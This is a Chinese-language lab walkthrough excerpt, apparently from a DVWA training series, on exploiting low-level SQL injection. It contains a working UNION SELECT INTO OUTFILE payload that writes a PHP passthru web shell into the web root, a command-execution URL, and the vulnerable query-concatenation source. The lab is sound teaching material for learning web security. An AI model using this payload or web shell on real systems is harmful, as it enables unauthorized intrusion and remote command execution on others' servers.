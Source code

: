 假设我们已经有数据库的写权限。

执行写权限操作后，web页面报错：

```php
// 这里注意，这里爆出来绝对路径，下面要用到.
Warning: mysql_numrows() expects parameter 1 to be resource, boolean given in C:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\sqli\source\low.php on line 12
```

刷新一遍页面，或者再提价一下，发现出现

```sql
File 'c:/kk.txt' already exists
```

说明写入成功，接下来需要的是往dvwa网站中写入一句话木马，利用上面报错的信息产生的绝对路径`C:\phpStudy\PHPTutorial\WWW\DVWA`

```sql
' union select null, "<?php passthru($_GET['cmd']); ?>" into outfile "C:\\phpStudy\\PHPTutorial\\WWW\\DVWA\\pp.php" #
```

可以在web目录中找到：`\DVWA\pp.php`内容是：`<?php passthru($_GET['cmd']); ?>`

这里进行访问：http://localhost/dvwa/pp.php?cmd=dir ，这里可能还会涉及到shell的提权，后面讲。

<img src="../images/dvwa_lib/sql_inject_low_cmd_dir.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"  height="250px"/>

`?cmd=dir`传入cmd的命令

**看一下low的源码**

```php
// Get input
$id = $_REQUEST[ 'id' ];

// Check database
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );
```

可以很明显的发现，其实就是简单的拼接
